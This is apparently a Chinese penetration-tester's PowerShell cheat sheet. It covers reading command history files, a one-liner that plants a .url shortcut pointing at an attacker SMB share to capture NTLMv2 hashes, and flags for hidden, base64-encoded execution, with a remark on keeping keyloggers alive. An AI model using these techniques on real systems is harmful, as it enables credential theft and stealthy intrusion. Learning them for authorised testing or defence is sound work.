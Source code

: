 ![[Pasted image 20240309130545.png]]



### 渗透

#### 上传

[[FileTransfers-Windows#Upload]]

#### 下载

[[FileTransfers-Windows#Download]]

#### 历史命令

- 查看保存历史命令的文件：`(Get-PSReadlineOption).HistorySavePath`
- 查看历史命令：`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`



#### NTLMv2窃取

scf文件

web快捷方式
```powershell
$url = "file://10.10.14.46/share/test.hta"; $shortcutPath = "C:\inetpub\testing\test.url"; $shortcutContent = "[InternetShortcut]`r`nURL=$url"; Set-Content -Path $shortcutPath -Value $shortcutContent
```

- `file://`的话似乎需要开启SMB服务。



### 事件调查时

> 《详解 事件响应》P96




## 重要参数

- `-NoProfile`（`-NoP`）：不加载当前用户的配置。
- `-NonInteractive`（`-NonI`）：它显示窗口，只是禁用交互。
- `-w Hidden`：`WindowStyle='Hidden'`
- `-c`：`-Command`
	- 关于**单引号内**不能用双引号而要用两个单引号——[在单引号内要输出一个单引号就要用两个单引号——相当于单引号用来转义](https://www.zhiu.cn/60919.html)。下图例：  
	![[Pasted image 20240309124417.png]]
- `-noexit`：执行后不退出。对于如键盘记录等脚本来说很重要，因此这些脚本得以持续执行
- `-enc`（`-e`）：执行编码字符。（相对于-c则是执行单纯字符）
	- 其base64编码仅支持UTF-16LE（“Unicode”）字符串，不支持utf-8。【因为通常powershell的默认编码是Unicode UTF-16LE】
	- 转base64（UTF-16LE）：
		- 在Windows转base64（UTF-16LE）的命令：`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<your command>'))`
		- 用LINUX命令（iconv）：[[Linux命令#^f44db6|echo -en "[Command]" | iconv -t UTF-16LE | base64 -w 0]]
		- 用CyberChef：  
			![[Pasted image 20240309124158.png]]
